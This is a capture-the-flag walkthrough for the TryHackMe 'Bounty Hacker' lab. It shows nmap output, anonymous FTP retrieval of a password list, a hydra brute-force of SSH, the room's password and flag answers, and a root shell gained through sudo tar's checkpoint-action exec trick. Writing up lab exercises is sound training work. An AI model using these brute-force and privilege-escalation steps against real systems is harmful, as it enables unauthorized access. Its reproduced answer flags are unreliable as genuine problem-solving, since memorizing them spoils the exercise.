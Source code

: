 # Try Hack Me - Bounty Hacker

setup variable IP for easy use
```bash
export IP=10.10.14.22
```

# TASK 1

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 16:24 EDT
Nmap scan report for 10.10.14.22
Host is up (0.14s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:                                                                             
|      Connected to ::ffff:10.6.57.243                                                           
|      Logged in as ftp                                                                          
|      TYPE: ASCII                                                                               
|      No session bandwidth limit                                                                
|      Session timeout in seconds is 300                                                         
|      Control connection is plain text                                                          
|      Data connections will be plain text                                                       
|      At session startup, client count was 3                                                    
|      vsFTPd 3.0.3 - secure, fast, stable                                                       
|_End of status                                                                                  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                
| ssh-hostkey:                                                                                   
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)                                   
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)                                  
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                              
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                     
|_http-title: Site doesn't have a title (text/html).                                             
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel            
```

Q. Who wrote the task list? 
A. lin

There's nothing on the web site and dirbuster produced no new subdirectories. let's try anonymous FTP

```bash
ftp anonymous@10.10.14.22
mget *.txt
```
task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
etc......

```

Q. What service can you bruteforce with the text file found? 
A. SSH

Now we have her username we can attack ssh with hydra. Also the locks.txt file looks like passwords. Let's try those first.

Q. What is the users password?
A. RedDr4gonSynd1cat3

```bash
hydra -l lin -P /home/username/Documents/THM/Bounty_hunter/locks.txt ssh://10.10.14.22
```

Q. user.txt
A. THM{CR1M3_SyNd1C4T3}

```bash
ssh lin@10.10.14.22
cat user.txt
```

Q. root.txt
A. THM{80UN7Y_h4cK3r}

```bash
sudo -l
```

Results

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick look to GTfoBins - https://gtfobins.github.io/gtfobins/tar/

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

we're root

cat out the file

```bash
cat /root/root.txt
```

Done!

